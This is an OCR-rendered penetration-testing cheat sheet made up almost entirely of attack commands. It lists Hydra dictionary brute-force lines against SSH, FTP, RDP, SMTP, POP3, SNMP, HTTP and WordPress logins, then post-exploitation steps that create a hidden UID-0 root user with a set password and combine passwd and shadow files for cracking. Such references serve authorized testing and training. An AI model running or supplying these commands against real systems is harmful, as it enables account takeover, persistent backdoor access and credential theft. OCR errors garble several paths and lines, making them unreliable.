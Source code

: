 Hydra

> $ Hydra brute force against SNMP  
> ▪ hydra -P password-file.txt -v &gt; $ip snmp

```text
> $ Hydra FTP known user and rockyou password list
```

▪ hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV &gt; $ip ftp

```text
> $ Hydra SSH using list of users and passwords
```

▪ hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u &gt; $ip ssh

```text
> $ Hydra POP3 Brute Force
```

▪ hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f &gt; $ip pop3 -V

```text
> $ Hydra SMTP Brute Force
```

▪ hydra -P /usr/share/wordlistsnmap.lst &gt; $ip smtp -V

```text
> $ Hydra attack http get 401 login with a dictionary
```

▪ hydra -L ./webapp.txt -P ./webapp.txt &gt; $ip http-get /admin

```text
> $ Hydra attack Windows Remote Desktop with rockyou
```

▪ hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp:// &gt; $ip

```text
> $ Hydra brute force a Wordpress admin login
```

▪ hydra -l admin -P ./passwordlist.txt &gt; $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

## POST EXPLOITATION LINUX

Add user with root privs:

> $ sudo useradd -ou 0 -g 0 john  
> $ sudo passwd John@1234

Combie shadow and passwd files:

> $ unshadow passwd.txt shadow.txt &gt; passwords.txt

Find listening services:

> $ netstat -alp
